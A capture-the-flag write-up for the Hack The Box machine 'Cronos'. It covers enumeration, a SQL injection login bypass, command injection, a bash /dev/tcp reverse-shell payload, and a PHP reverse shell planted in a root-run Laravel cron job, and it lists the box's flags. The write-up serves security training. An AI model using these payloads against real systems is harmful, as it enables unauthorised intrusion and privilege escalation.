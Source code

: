 # HTB: Cronos  
**OS:** Linux  
**Difficulty:** Medium  

---

## Engagement Overview
- **Target:** Cronos  
- **Box IP:** 10.10.10.13  
- **Local IP:** 10.10.14.10  
- **Date:** 2025-07-12  

---

## Objectives
- Exploit SQL injection vulnerability
- Achieve shell access and escalate to root via cron job abuse

---

## Service Enumeration

### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

- **Gobuster:** No useful results  
- **DNS Info (dig):**
  ```
  cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb.
  ```

---

## Exploitation

### Initial Access

**Vulnerability:**  
- SQL Injection on `admin.cronos.htb` login form  
- Payload: `' OR 1=1-- -`  

**Confirmation:**  
Ping test to attacker IP succeeded:
```
PING 10.10.14.10 (10.10.14.10): 64 bytes from 10.10.14.10: time=43.6 ms
```

**Command Injection:**  
Using Burp Suite Repeater:
```
command=ls+-l&host=/var/www
```
Response:
```
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 admin
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 html
drwxr-xr-x 13 www-data www-data 4096 May 10 2022 laravel
```

**Reverse Shell Payload:**  
```bash
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
```

Shell acquired as `www-data`.

---

## Privilege Escalation

### Enumeration
- Discovered cron job running Laravel scheduler:
  ```
  * * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```

### Exploitation
- Poisoned artisan job to execute PHP reverse shell:
```php
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

- Shell established as `root`.

---

## House Cleaning
- Removed:
  - `linpeas.sh`
  - Malicious code from Laravel artisan
- No additional uploads or tools left behind

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized
- Burp Suite
- linPEAS
- netcat / listener

---

## Key Takeaways
- linPEAS highlighted numerous other potential vulnerabilities, but only the cron job was exploited
- This box served as good hands-on training for:
  - Manual SQL injection
  - Laravel-based cron job abuse
  - Gaining shell via Burp Suite command injection